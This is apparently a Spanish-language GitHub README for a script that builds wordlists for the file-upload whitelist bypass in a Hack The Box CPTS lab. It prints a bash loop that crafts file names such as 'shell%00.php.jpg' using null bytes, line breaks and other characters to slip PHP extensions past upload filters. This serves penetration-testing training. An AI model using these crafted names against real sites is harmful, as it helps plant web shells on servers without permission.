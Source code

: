 # Character-Injection-2-extension

Simple script que permite generar diccionarios para la inyeccion en el bypass de file upload de CPTS (https://academy.hackthebox.com/module/136/section/1289) Filtros de lista blanca, basicamente es el siguiente script, "pero mejorado".

for char in '%20' '%0a' '%00' '%0d0a' '/' '.\\' '.' '…' ':'; do
    for ext in '.php' '.phps'; do
        echo "shell$char$ext.jpg" >> wordlist.txt
        echo "shell$ext$char.jpg" >> wordlist.txt
        echo "shell.jpg$char$ext" >> wordlist.txt
        echo "shell.jpg$ext$char" >> wordlist.txt
    done
done

## New Script

## IMG 1

![Image](https://github.com/user-attachments/assets/6a20b497-4376-48d6-8098-01127ec288ba)

## IMG 2

![Image](https://github.com/user-attachments/assets/b6f50a57-28a5-4407-980e-22c6c51df185)

## IMG 3

![Image](https://github.com/user-attachments/assets/3f280d48-6031-4721-8eff-30b57e4b9fc1)

## Uso

Solo descarga la herramienta.

Luego dale permisos con chmod +x

y ejecuta.
